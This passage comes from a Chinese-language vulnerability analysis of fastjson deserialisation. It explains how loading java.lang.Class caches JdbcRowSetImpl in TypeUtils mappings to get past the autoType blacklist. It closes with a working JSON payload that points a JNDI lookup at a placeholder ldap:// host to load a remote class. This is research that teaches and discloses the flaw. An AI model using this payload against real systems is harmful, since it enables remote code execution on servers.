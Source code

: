 那顺着思路往下走，我们要去找对mappings对象进行操作的地方，Map对象一般使用put方法进行操作，查找TypeUtils类里面使用mappings.put方法使用：  
一共有两处：  
`private static void addBaseClassMappings()`  
`public static Class<?> loadClass(String className, ClassLoader classLoader)`  
loadClass（）这个方法在本文章前半部分autoTypeSupport为True的时候遇到过，不妨先看看：  
在该方法里面有两处调用mappings.put，往mappings里面放入了String，Class键值对：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-d49f4aee7de4cdf2e57a8d09b8862467518e3214.png)  
（1、其中1处的条件是调用该方法的时候，传入了一个非空的ClassLoader对象  
（2、其中第2处则是上文中提到的地方，调用`Thread.currentThread().getContextClassLoader()`方法获取ClassLoader对象，然后调用loadClass方法获取传入的String className值的Class，并将其放入mappings中，然后返回。  
看样子显然第二处是我们想要找的，那我们可以去找找哪里调用了这个TypeUtils类的loadClass方法，并且其传入的String类型的className参数为`com.sun.rowset.JdbcRowSetImpl`！  
反向分析的差不多了，接下来正向分析一波，毕竟这种东西不是那么好找出来的：

在fastjson反序列化使用@type指定java.lang.Class类对象并对其val置值为`com.sun.rowset.JdbcRowSetImpl`的时候：  
和正常一样首先使用DefaultJSONParser类的parserObject方法对其进行处理：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-3b8813151c94df2f007383547eb8849fd5d1affd.png)  
紧接着就是checkAutoType()函数：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-bcca5d61af676e9209f94c21b37e1adb66f0fe3c.png)  
`java.lang.Class`该类不在黑名单类里面，不会被阻拦，继续向下运行：触发`this.config.getDeserializer.deserialze(this, clazz, fieldName) `执行：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-8c0b1026702f5f7381bc5bb6421590acb6135888.png)  
跟进deserialze()方法:  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-19df202857dc25a71e578753ba7f092fb889da6b.png)  
在该方法中将val的值赋给了objval对象：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-23a615fc382e1635a0ca380f0581bc54306a58f8.png)  
之后就是对出入的参数class进行匹配，我们传入的是java.lang.Class，从而进入下面的else if：  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-ff7360d74b6d6f97ee1899f0eae59f191a8a9ba0.png)  
继续向下可以看到对Class类型做了一个匹配，进入Class.class的if中：  
执行了`TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());`并且其传入的className形参strVal的值为调用链中要用的`com.sun.rowset.JdbcRowSetImpl`，同时传入其默认的classLoader，默认null为空。从而正好满足了我们反向分析时候的要求，将调用链中用到的JdbcRowSetImpl类置入mappings中！  
![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-3e5e69bf63908f5da742b432bd8b4c9c6dfe5258.png)  
**原理剖析完了，那payload怎么构造呢？**  
答：使用@type指定对应的类，传入一个json“即可”：  
使用**payload2**：

```java
String payloadforall ="{\n" +  
        " \"a\":{\n" +  
        " \"@type\":\"java.lang.Class\",\n" +  
        " \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +  
        "    },\n" +  
        " \"b\":{\n" +  
        " \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +  
        " \"dataSourceName\":\"ldap://xxx.xxx.xxx.xxx:port/Evalclass\",\n" +  
        " \"autoCommit\":true\n" +  
        "    }\n" +  
        "}";
```
